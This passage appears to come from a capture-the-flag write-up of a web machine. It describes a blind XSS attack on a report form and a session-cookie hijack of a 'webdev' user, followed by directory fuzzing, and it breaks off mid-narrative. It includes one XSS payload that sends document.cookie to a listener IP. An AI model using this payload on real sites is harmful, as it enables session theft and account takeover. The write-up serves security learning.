 ![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*unZShHdyaRowI7H_01BdMA.png)

Having previously observed the hash value within the cookie, I attempted to crack it without success. Recognizing the need for an alternative approach, I turned my attention back to the report form, hoping to uncover a potential foothold.

> You have to Change back the cookie value to mitigate issues

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*unZShHdyaRowI7H_01BdMA.png)

## Exploitation 
It seems there might be a blind XSS vulnerability to exploit, so let’s dive in.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*0MZUxh4DL3OMyaZ80ISPbw.png)

I had many options to try from my old notes, whether by using a simple script and an netcat listener, or hosting a cookie reorder page to capture received cookies. Additionally, we have a variety of payloads to inject, providing ample avenues for experimentation.

This simple payload proved effective, successfully capturing the cookie in the listener.

```html
"><img src=x onerror=this.src='http://10.10.16.35:8081/?c='+document.cookie>
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*bOyhu2y01fdnb39LPg6gwg.png)
![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*qhyC5-U7Q20mhg1ABcHXDQ.png)

I revisited the Dashboard after modifying the cookie value, and voila, we captured the `webdev` cookie.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*QdGQVjWOsQzuk2KHzDuhfA.png)


There were no features in the page so i decided to do directory FUZZ while reviewing these reports

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*yGb6J_LGIsVmo6acqmIO_g.png)

The `web_dev` user can change the priority of the report, resolve it or delete it either.

The directory fuzzing reveled a path for backup and another for resolve

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*tQOFq_mNd7ut8tpL8Otj4g.png)

We already know this user can resolve reports and that is explain why the method not allowed as it would be POST method

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*WD2krg11s7CYn9k94-Keag.png)

And regarding the backup path, it revealed nothing more than a confirmation of successful backups.

![](https://miro.medium.com/v2/resize:fit:828/format:webp/1*QQIMoAFprqcuSlJlqVabhQ.png)


I don’t know why or when or how but sometimes after refresh the other users reports appear, including one that belongs to me.

